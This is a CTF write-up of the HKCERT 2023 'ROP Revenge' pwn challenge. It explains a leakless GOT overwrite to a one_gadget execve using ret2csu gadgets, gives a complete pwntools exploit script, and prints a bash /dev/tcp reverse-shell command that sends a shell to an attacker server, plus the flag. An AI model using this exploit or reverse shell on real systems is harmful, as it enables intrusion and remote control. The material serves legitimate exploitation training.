







# HKCERT CTF 2023 - ROP Revenge Writeup
# Challenge Description

```
nc chal.hkcert23.pwnable.hk 28352

Points: 300
Solves: 13
Author: cire_meat_pop
Category: pwn
```

Challenge Files: [rop-revenge.zip](https://file.hkcert23.pwnable.hk/rop-revenge_7972910e2e6b81e30b193d2032b3fc84.zip)
# TL;DR
For usual pwners, ROP is not that much of a big deal because there's so many documented tricks like [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc), [ret2csu](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu), [ret2syscall](https://www.ctfnote.com/pwn/linux-exploitation/rop/ret2syscall) etc. But in this challenge, as the challenge description says (or shows), the authors made the task really difficult by introducing 2 major hurdles to prevent the usual exploitation route.

For most of the ROP attacks to be successful, we need some way to leak address, usually from libc. And to leak, we need some function that can show output. Guess what, in the challenge binary there're no functions that can show output! No `puts`, `printf`, `write` or `read` even! Second, the binary closes the `stdout` stream before return! Even if our exploit was successful and we got a shell, how can we read back anything if the `stdout` was not open! Hufff......

As I had no way of leaking address, I opted for directly getting a shell through [Onegadget](https://github.com/david942j/one_gadget) `execve`. As a sidenote, `PIE` was disabled and there was a simple Buffer Overflow vulnerability. I found a gadget (`add [rbp - 0x3d], ebx ; nop ; ret`) using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) which let me modify the GOT entry of one of the few libc functions available in the binary with the runtime libc address of Onegadget `execve`. See [Detailed Solution](#detailed-solution) for how I did that without leaking libc address.

To get around the second problem of having `stdout` closed, after I got the shell through executing Onegadget `execve`, I spawned a reverse shell to a server controlled by me and ran `cat flag.txt` to get the flag right in my server. Clever, right? :)

Final Exploit Script: [solve.py](#solvepy)
# Detailed Solution
## Initial Analysis
First, lets check the file info and the protections enabled on it.
```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=97141f37c3f783b8699d22030fdb8eef2b466762, for GNU/Linux 3.2.0, not stripped
```
We've got a 64-bit, dynamically linked executable (Me: gonna do re2libc. Chall author: [evil smile].....). The binary is not stripped, meaning we have the function names intact which would greatly help us debug inside gdb.
```bash
$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
`checksec` is a utility that comes with pwntools. [GEF](https://github.com/hugsy/gef) also has it. As we can see from the output, there's no stack canary and also PIE is disabled. Moreover, we can write into GOT (will help us tremendously later) indicated by `Partial RELRO`.
After running, the program just takes input and exits.
```bash
$ ./chall
AAAA
```
## Looking at Ghidra
Its time to look at what lies inside this seemingly quiet binary through Ghidra.



`main()` is not doing much. Lets see what `init()` holds first.



As we can guess, `init()` is calling `setvbuf()` to disable buffering for I/O streams. A pretty common setup found in pwn challenges. Also, the `alarm()` is being set to trigger after 60 seconds. This is problematic while debugging as its causes the program to terminate. Don't worry, our friend `gdb` has ways to handle this :) [Use `handle SIGALRM nopass` inside `gdb` to ignore alarms.]
Its time to look at `vuln()`, our gateway to exploit the program as the name suggests.



So simple looking function with a straight forward `bof` via `gets()`, yet this simplicity is what making it so devious :) The file descriptor `1` refers to `stdout` by default and `close(1)` closes `stdout` and with it our only way of getting response back from remote server. I searched about 2 hours in the internet trying to find ways to get around this before I stumbled upon the idea of spawning a reverse shell. All other ideas were so complicated. I'll discuss about it later.
## Patch Binary - use remote server's libc
```bash
$ ldd chall
	linux-vdso.so.1 (REDACTED_ADDRESS)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (REDACTED_ADDRESS)
	/lib64/ld-linux-x86-64.so.2 (REDACTED_ADDRESS)
```
As seen from `ldd` output, the binary is using my local system `libc`, located at `/lib64/ld-linux-x86-64.so.2`. But this would become a problem when getting libc offsets as they vary between libc versions. We need to patch the binary so that it uses the same libc as the remote server (*this is a crucial step in every pwn challenge where we need to use libc for exploitation*). But we weren't given remote libc. So, how do we get that?

We are given the Dockerfile to emulate remote server's behavior. **We can get the same libc being used in remote server by copying the libc from our local docker instance**. To do that, after spawning the docker container, we need to get a shell inside the container ("seed" is the name of my docker container):
```bash
$ sudo docker exec -it seed sh
```
If you don't know how to build and run docker containers from given Dockerfile, look at [official docker doc](https://docs.docker.com/get-started/02_our_app/). Next, we have to find the path of `libc.so` being used by the binary *inside the container*.



Copy the libc from docker container using libc path found earlier to the same folder as the challenge binary using `docker cp` command.
```bash
$ docker cp <containerId>:/file/path/within/container /host/path/target
```
There's a handy tool [pwninit](https://github.com/io12/pwninit) to patch the binary for us. Just run `pwninit` in the directory containing the challenge binary and copied `libc.so` and it will make the binary use the copied libc. Now, if we run `ldd` on patched binary, we'll see the change.
```bash
$ ldd chall_patched 
	linux-vdso.so.1 (REDACTED_ADDRESS)
	libc.so.6 => ./libc.so.6 (REDACTED_ADDRESS) <== LOOK_HERE
	./ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (REDACTED_ADDRESS)
```
With the binary now patched, we can now proceed to our primary objective of exploitation.
## Open stdout (?)
After looking at the `vuln()` function, I immediately realized there's gonna be a significant problem if I want to leak libc address or get output of `flag.txt` or get anything whatsoever because of the `close(1)` call. I initially focused on reopening `stdout` as no matter what I do it wouldn't mean anything if `stdout` was closed as I wouldn't get any response back from server. My initial thought was to somehow use the `setvbuf()` to reopen `stdout`. But after about half an hour of searching, I dumped that idea. Then in a [writeup](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) from TokyoWesterns CTF 2018 I found that the challenge used similar technique of closing `stdout`. The writeup author used `open()` call to get back the stdout. I thought of doing the same and thats when I was struck by another hurdle kept in the challenge binary.

I wanted to see what libc functions were present in my binary and if `open()` was one of them or not. To my surprise, the binary had only 4 functions from libc as seen from the below image from inside `gdb`.



Forget about `open()`, there were *no libc functions for any kind of output*. Now the whole situation got a lot worse. **No `stdout`, no output function**. Great! At this point, I got a bit frustrated cz I haven't encountered anything of this sort before. Because almost always there're some functions to leak libc. I took this as a challenge and started to search online on how I can get around both of these issues. I knew that there must be some way to overcome these hurdles.

After searching for another hour, I found a very unexpected way of getting back `stdout` which is by **spawning a reverse shell** (from this [writeup](https://atum.li/2017/11/08/babyfs/#get-a-shell)). I didn't think of it before but once I knew I immediately realized this is the way to go. But to be able to do that I need a *shell* first on the remote server so that I can execute the reverse shell. How do I do that when I can't even leak any address?
## Overwrite GOT
Usually, in a ROP challenge with `bof`, we leak some address from libc and using that we call either `system('/bin/sh')` or `execve('/bin/sh', 0, 0)` by using gadgets available in the binary (considering PIE is disabled which we had in the challenge binary). But as I couldn't leak any address due to lack of an output function or stdout being closed, I needed another way to gain code execution. After searching for about an hour or so, I found this [reddit thread](https://www.reddit.com/r/securityCTF/comments/n3x0ha/is_there_a_way_to_leak_addresses_without_output/) where the OP mentioned a technique to overwrite GOT entry of a libc function `without ever knowing the exact entire value to write in that GOT entry` and execute Onegadget `execve`. He was also in a situation where no output function was present in the binary. Exactly what I needed!

The essence of the technique was I had to find a gadget which would let me write into memory through registers that I could control. The memory location to be overwritten would be GOT entry of some function as GOT was fixed due to disabled PIE. The value to be written in GOT would be the runtime address of Onegadget `execve`. The only way to do that would be to **read the value in the memory address held in GOT entry  (*which is the runtime address of that libc function*) and add (or subtract) the difference between the offset of that libc function and Onegadget execve**. Really clever idea! Using ROPgadget I found a gadget through which I could do exactly that: `add [rbp - 0x3d], ebx ; nop ; ret`. The value at memory location `rbp-0x3d` would be overwritten after adding the value in `ebx` with itself. That means, `rbp-0x3d` should be pointing to the GOT entry that I want to overwrite. And `ebx` should hold the difference between the offsets as mentioned earlier. I decided to overwrite the GOT entry of `alarm()`, though I could also overwrite `close()` or `setvbuf()` I guess. `rbp` should hold GOT address of `alarm()` + 0x3d.

To make this technique work, I need to control `rbp` and `ebx` .To control these registers, I used the sequence of `pop`'s found in `__libc_csu_init` which are generally used in another common attack technique known as [ret2csu](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu).
```bash
<__libc_csu_init>:
...................
...................
4012ba: pop    %rbx
4012bb: pop    %rbp
4012bc: pop    %r12
4012be: pop    %r13
4012c0: pop    %r14
4012c2: pop    %r15
4012c4: ret
```
As I control the stack through the buffer overflow, I can put whatever value I want in these registers as this sequence of instructions would be popping value off the stack and put in those register. After overwriting GOT, we need to come back at `vuln()` for the second stage of payload where we satisfy the constraints of the Onegadget `execve` call.
## Execute Onegadget `execve`
Now that we can overwrite GOT with the runtime address of Onegadget `execve`, the last thing we need to do is jump there. But we can't do that right now. For those who are familiar with Onegadgets, they let us execute `execve('/bin/sh', 0, 0)` from libc without any arguments i.e. we can gain a shell just by jumping at that address. But to make this whole thing work, some constraints need to be satisfied before jumping. These constraints can be found with the [Onegadget](https://github.com/david942j/one_gadget) tool and can be seen in following image:



I decided to use the last one (marked yellow) as I could control `rsi` and `rdi` to make them 0 (NULL) using `__libc_csu_init` again. This function has tremendously helped me in my whole exploitation journey :) In `__libc_csu_init`, just before the sequence of `pop`'s, there's a sequence of `mov`'s that would let us control `rsi` and `rdi`. On top of that, there's a `call` instruction too which would let us call anything we want because we can control `r15` and `rbx` too. How? Remember those sequence of `pop`'s? ;)
```bash
<__libc_csu_init>:
........................
........................
4012a0: mov    %r14,%rdx
4012a3: mov    %r13,%rsi
4012a6: mov    %r12d,%edi
4012a9: call   *(%r15,%rbx,8)
........................
........................
```
So, as we control `r14` and `r13` from those sequence of `pop`'s, we can set `rdx` and `rsi` to `0` using the sequence of `mov`'s to make the Onegadget call work. Also we can set `r15` and `rbx` such that the final computed address after `r15 + (rbx*8)` points to our previously overwritten GOT entry which now holds the address of Onegadget `exeve` (I made `rbx` 0 just to simplify the computation). One final thing, the memory location `[rbp-0x78]` must be *writable* as seen from the set of constraints in the one_gadget output image. To handle this, I just set `rbp` to `address of .bss + 200` as `.bss` segment is writable. And voila! We get our Remote Shell.
## Getting Reverse Shell
One last trick is left. We can see from the image below that even after getting a shell successfully, we are not getting any output no matter what commands we execute.



Why? Because the challenge author brilliantly closed our precious `stdout` :) As I discussed previously, I opted for getting a reverse shell back to my controlled server. I used the following command after getting shell on remote server to open a reverse shell back to me:
```bash
bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
```
And within no time, I could execute my precious `cat flag.txt` and got the [flag](#flag)!
## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("chal.hkcert23.pwnable.hk", 28352)
        # r = remote("localhost", 1337)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    handle SIGALRM nopass
    start
    b *vuln+51
"""

# Binary filename
exe = "./chall_patched"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = "info"
warnings.filterwarnings(
    "ignore",
    category=BytesWarning,
    message="Text is not bytes; assuming ASCII, no guarantees.",
)

# =======================
# EXPLOIT AFTER THIS
# =======================
libc = ELF("./libc.so.6")
offset = 120

ALARM_GOT = 0x404018
VULN = 0x401205

###### Onegadget Execve
# 0xebc88 execve("/bin/sh", rsi, rdx)
# constraints:
# address rbp-0x78 is writable
# [rsi] == NULL || rsi == NULL
# [rdx] == NULL || rdx == NULL
EXECVE_OFFSET = 0xEBC88

SET_GOT = 0x40117C  # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
RBP = ALARM_GOT + 0x3D
RBX = (
    EXECVE_OFFSET - libc.symbols["alarm"]
)  # difference between ALARM and One Gadget Execve in libc
CSU_START = (
    0x4012A0  # mov %r14,%rdx; mov %r13,%rsi; mov %r12d,%edi; call *(%r15,%rbx,8)
)
CSU_END = 0x4012BA  # pop %rbx; pop %rbp; pop %r12; pop %r13; pop %r14; pop %r15; ret

r = connect()

payload_1 = b"A" * offset
payload_1 += p64(CSU_END)
payload_1 += p64(RBX) + p64(RBP) + b"B" * 32 + p64(SET_GOT)
payload_1 += p64(VULN)

r.sendline(payload_1)

payload_2 = b"A" * offset
payload_2 += p64(CSU_END)
payload_2 += (
    p64(0)
    + p64(elf.bss() + 0x200)
    + b"A" * 8
    + p64(0)
    + p64(0)
    + p64(ALARM_GOT)
    + p64(CSU_START)
)
r.sendline(payload_2)

r.interactive()

# after getting shell on remote server run the following
# bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
# to get reverse shell
```
## Flag
`hkcert23{n0_3y3_s3E}`
